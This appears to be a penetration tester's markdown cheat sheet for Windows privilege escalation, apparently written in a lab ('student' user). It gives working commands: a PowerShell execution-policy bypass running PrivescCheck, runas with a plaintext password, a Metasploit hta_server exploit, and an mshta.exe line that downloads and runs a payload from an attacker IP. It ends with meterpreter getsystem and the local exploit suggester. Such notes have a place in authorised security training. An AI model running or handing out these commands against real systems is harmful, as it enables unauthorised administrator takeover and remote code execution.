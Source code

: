 # Windows Privilege Escalation

Wiki for collected windows privesc here

## Github

```bash
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
https://github.com/bitsadmin/wesng
https://github.com/SecWiki/windows-kernel-exploits
```

## Manual

Option 1

```powershell
#https://github.com/itm4n/PrivescCheck
cd C:\Users\student\Desktop\PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
runas.exe /user:administrator cmd
hello_123321
whoami
```

```bash
msfconsole
use exploit/windows/misc/hta_server
run
```

You need to execute the below payload on the cmd.exe.

```bash
mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
```

Option 2

```bash
#https://github.com/AonCyberLabs/Windows-Exploit-Suggester
sysinfo # copy the result into a txt file
echo '[PASTE]' > sysinfo.txt
#for first run
./windows-exploit-suggester.py --update
#example usage
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt #highest means priority in the result
```

## Metasploit

```bash
#meterpreter
getuid
getprivs
getsystem #for auto privesc
#suggester
use multi/recon/local_exploit_suggester
sessions
set session 1
run
```
